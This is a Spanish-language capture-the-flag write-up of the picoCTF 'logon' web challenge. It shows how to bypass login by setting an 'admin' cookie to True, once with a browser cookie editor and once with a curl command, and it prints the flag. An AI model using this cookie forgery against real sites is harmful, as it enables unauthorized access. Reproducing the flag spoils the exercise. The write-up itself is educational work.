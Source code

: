 ## logon

## Descripción
La fábrica está ocultando cosas a todos sus usuarios. ¿Puedes iniciar sesión como Joe y encontrar lo que han estado viendo? ([enlace](https://jupiter.challenges.picoctf.org/problem/15796/)) o https://jupiter.challenges.picoctf.org/problem/15796/

## Pistas
* Hmm, no parece verificar la contraseña de nadie, excepto la de Joe?

## Solución
*- Forma 1:*
1. Abrir el inspector de la página.
2. Ir al apartado de "Red".
3. Ingresar con cualquier nombre y contraseña.
4. Observar las peticiones que se realizaron al ingresar los datos solicitados. 
5. Añadir una nueva extensión al navegador: Cookie Editor y examinar las cookies de la página.
6. Modificar la cookie "Admin" con un valor "True".
7. Guardar y refrescar la página.
8. Obtener la bandera: **picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}**

*- Forma 2:*
``` bash 
vikyga-picoctf@webshell:~$ curl -s  https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: admin=True" | grep pico 
            <p style=text-align:center; font-size:30px;><b>Flag</b>: <code>'picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}'</code></p>
vikyga-picoctf@webshell:~$ 
```

## Bandera
**picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}**

## Notas adicionales
* *Comunicación HTTP:* protocolo sin estado de la capa de aplicación que articula los intercambios de información entre los clientes Web y los servidores HTTP.
* *HTTP headers:* permiten al cliente y al servidor pasar información adicional con una solicitud o respuesta HTTP.
* *HTTP cookies:* es una pequeña pieza de datos que un servidor envía a el navegador web del usuario, el navegador los guarda y los envía de regreso junto con la nueva petición al mismo servidor.

|Comando | Descripcion |
|-----|-------|
| curl | Transfiere datos hacia o desde un servidor, utilizando cualquiera de los protocolos compatibles (HTTP, FTP, IMAP, POP3, FILE, etc).|


## Referencias
* [HTTP](https://neo.lcc.uma.es/evirtual/cdd/tutorial/aplicacion/http.html)
* [HTTP headers](https://developer.mozilla.org/en-US/docs/web/http/headers)
* [HTTP cookies](https://developer.mozilla.org/es/docs/Web/HTTP/Cookies)
* [curl](https://www.geeksforgeeks.org/curl-command-in-linux-with-examples/)

Fecha: 09/03/2023.